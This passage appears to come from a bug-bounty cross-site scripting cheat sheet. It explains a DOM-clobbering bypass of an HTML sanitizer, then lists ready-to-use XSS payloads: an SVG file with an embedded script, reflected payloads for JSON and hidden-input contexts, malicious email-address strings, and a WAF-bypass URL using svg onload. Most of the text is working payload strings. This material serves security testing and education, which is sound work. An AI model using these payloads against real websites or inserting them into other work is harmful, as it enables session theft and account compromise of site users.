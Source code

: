     **Explain**
    
    The library uses the `attributes` property to filter HTML attributes. However, it is still possible to clobber the `attributes` property itself, causing the length to be undefined. This allows us to inject any attributes we want into the `form` element. In this case, we use the `onfocus` attribute to smuggle the `print()` function.
    
    When the `iframe` is loaded, after a 500ms delay, it adds the `#x` fragment to the end of the page URL. The delay is necessary to make sure that the comment containing the injection is loaded before the JavaScript is executed. This causes the browser to focus on the element with the ID `"x"`, which is the form we created inside the comment. The `onfocus` event handler then calls the `print()` function.
    
- **Stored XSS via SVG file**
    
    is an example of a basic SVG file that will show a picture of a `rectang`
    
    ```
    <svg width="400" height="110">  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> </svg><!--This means you can place an SVG file in an image tag and it will render perfectly:--><img src="rectangle.svg" alt="Rectangle" height="42" width="42"><!-- An example SVG file with an alert XSS payload can be found below:--><?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "<http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd>"><svg version="1.1" baseProfile="full" xmlns="<http://www.w3.org/2000/svg>"> <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> <script type="text/javascript"> alert("h0tak88r_XSS"); </script></svg>
    
    ```
    
- **XSS Reflected in JSON Format and “{}” Forbidden**
    
    - [ ] `/?q=test%2Aconsole.log(1337)//’;`
    
    ![https://user-images.githubusercontent.com/108616378/219940132-46f7abe3-2ac4-425d-aa29-09e54d2c62b4.png](https://user-images.githubusercontent.com/108616378/219940132-46f7abe3-2ac4-425d-aa29-09e54d2c62b4.png)
    
- **XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param**
    
    - [ ] `/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’` But the Victim must click `ALT+SHIFT+X`
    
    ![https://user-images.githubusercontent.com/108616378/219940162-49b746e2-b5a2-46ff-bcd2-0d2755a131a8.png](https://user-images.githubusercontent.com/108616378/219940162-49b746e2-b5a2-46ff-bcd2-0d2755a131a8.png)
    
- **XSS in email section**
    
    ```jsx
    admin1@example.com<script>alert('xss');</script> 
    “><svg/onload=confirm(1)>”@x.y 
    "hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com 
    ["');alert('XSS');//"]@xyz.xxx 
    "<svg/onload=alert(1)>"@gmail.com 
    test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E
    
    ```
    
- **XSS for .JSON endpoint [ bypass (`.html`)and `WAF` ]**
    
    - [ ] `“resource Type” : “silent:nonexitsting”` Function
        
        ![https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png](https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png)
        
    - [ ] Use `url-encoded` payload with .`htm` extension and `//` for break directory block too , So the server so the server didn’t understand my request fully
        
    - [ ] POC
        
    
    ```
    <https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html>
    
